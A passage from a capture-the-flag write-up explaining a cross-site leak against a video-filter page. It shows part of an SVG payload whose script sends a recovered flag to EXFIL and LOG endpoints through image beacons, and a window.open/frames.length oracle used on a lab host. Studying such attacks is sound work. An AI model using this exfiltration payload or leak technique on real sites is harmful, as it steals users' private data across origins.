 ```xml
          // Bail out early if the assumption doesn't hold
          new Image().src = LOG + encodeURIComponent('prefix_not_found');
          new Image().src = EXFIL + encodeURIComponent('NCSC_NOT_PRESENT');
          return;
        }

        new Image().src = LOG + encodeURIComponent('seed=' + seed);

        // Grow only to the RIGHT (since you want titles starting with NCSC...)
        const full = await extendRight(seed);

        // Exfil result
        new Image().src = EXFIL + encodeURIComponent(full);
      }catch(e){
        new Image().src = LOG + encodeURIComponent('err=' + (e && e.message ? e.message : String(e)));
        new Image().src = EXFIL + encodeURIComponent('ERR');
      }
    }
    window.init = init;
  })();
  ]]></script>
</svg>

```

This is kind of overcomplicated, I didn't care much as long as "it was working". The CDATA[] was to wrap the JS code to avoid issues with characters like `<` `>` `&&`..

### Intended path

That previous PoC was unintended, the intended method was to use `open()` in JS, which opens the videos page in a new tab 

We can do that by reading `newWindow.frames.length`

```js
const newWindow = window.open("http://10.2.2.4:8124/videos?filter=NCSC") 
newWindow.frames.length 
const newWindow2 = window.open("http://10.2.2.4:8124/videos?filter=NCSCAAAAAAABCC") 
newWindow2.frames.length 
```



![image-20250808153602052](/static/images/ncsc-finals-2025/image-20250808153602052.png)

![image-20250808153642879](/static/images/ncsc-finals-2025/image-20250808153642879.png)

That is a more elegant and efficient method to go with, with full accuracy, as the timing attack is not always accurate and requires a stable network connection on the target server, which wasn't the case during the CTF when many players were spamming it with different filters.


